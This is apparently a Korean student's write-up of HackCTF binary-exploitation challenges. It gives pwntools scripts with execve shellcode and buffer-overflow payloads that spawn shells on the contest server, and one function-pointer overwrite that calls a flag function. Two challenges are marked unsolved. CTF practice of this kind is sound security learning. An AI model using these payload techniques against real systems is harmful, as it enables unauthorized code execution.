 # HACKCTF  
## X64 Simple Size Bof  
~~~python
from pwn import *

r= remote("ctf.j0n9hyun.xyz",3005)

shellcode="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

r.recvuntil("buf: ")
buf =int(r.recv(14),16)
payload= shellcode +'A'*27937+p64(buf)

r.sendline(payload)
r.interactive()
~~~
이 문제의 코드를 아이다로 확인하면 buf의 주소를 준다.
그리고 버퍼인 v4의 크기는 0x6d30즉 27952이다.
그리고 실행시켜보면 buf의 주소는 유동적으로 바뀐다.
따라서 실행시킨 후 얻은 buf 주소를 사용해서 shellcode를 실행시킨다.
shellcode(23) | dummy(27937) | buf(14) 형태의 payload로 shell을 실행시켰는데
여기서 27952 - 14 = 27938이라 처음에 dummy를 27938 만큼 넣었는데  eof 값이 들어가서
크기 하나를 줄이게 되었다.
## Simple Overflow 2  
~~~python
from pwn import *

r= remote("ctf.j0n9hyun.xyz",3006)

shellcode="\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

nop ='a'*0x5c
r.sendlineafter("Data : ","ROY")
buf = int(r.recv(10),16)
r.send('y')
payload = shellcode + nop + p32(buf)
r.sendline(payload)
r.interactive()
r.close()
~~~
아이다로 코드를 열어봤는데 이건 ㅋㅋㅋ 겁나 복잡하다.
우선 s의 사이즈가 0x88이라는 것을 얻었다. 32bit이므로 sfp는 0x04이다.
시스템을 돌려보니 16자리 수마다 저장을 하고 BUF 주소를 준 다음 y n으로 반복할지를 결정하는 것을 볼 수 있다.
따라서 payload는 s(0x88)|sfp(0x04)|ret(0x04)로 짜준다.
프로그램을 두번 돌려서 첫번째 돌릴 때 얻은 buf 주소로 payload를 보내주어 shell을 얻는다.
이해 안 되서 롸업 참고했습니다.
## offset 
~~~python
from pwn import *

r= remote("ctf.j0n9hyun.xyz",3007)
flag= 0x000006d8
r.recvuntil("Which function would you like to call?\n")
payload = 'A'*30+p32(flag)
r.sendline(payload)
r.interactive()
~~~
nc를 통해 실행시켜보면 which function would you like to call?이라는 문구가 나온다.
다음 ida를 통해 열어보면 main 함수를 본 다음 print_flag를 확인가능하다.
앞에서 얘기한 function은 요놈이구나 싶다.
select_func 함수에서 call 되는 함수가 v3인데 따라서 v3의 주소를 print_flag의 주소를 덮어써야 한다.
따라서 dummy(30) | 0x000006d8로 payload를 구성시켜주면 된다.
remote 함수를 통해 which function would you like to call?이 나올 때까지 받아준 후
더미와 print_flag의 주소를 전달하는 코드를 통해 shell을 얻는다.
비교적 간단히 풀려서 좋닿ㅎㅎ
## BOF PIE  
nc로 3008에 연결시켜보니 내가 jon9hyun을 아는지 물어보고
j0n9hyun의 주소값을 주는 것을 확인했다.
몇번 돌려보니 역시나 주소값은 계속 변했다.
ida로 열어봤더니 welcome()을 실행하는 것을 알 수 있었고
위에서 변한다고 했던 주소값은 welcome의 주소임을 알 수 있었다.
그리고 j0n9hyun라는 함수에서 fopen()으로 flag를 보여주는 것을 확인했다.
fopen("flag","r"): "r" 즉 모드 인자에 의해 입출력 작업이 가능한지를 정하고 "flag" 인자에서 지정한 파일을 연다.
풀다보니 pie의 특성을 여기서 어떻게 해결할지 감이 잡히지 않아 우선 다음 문제들을 먼저 풀고
풀어봐야겠다.
## YES OR NO
**풀지 못했습니다.**
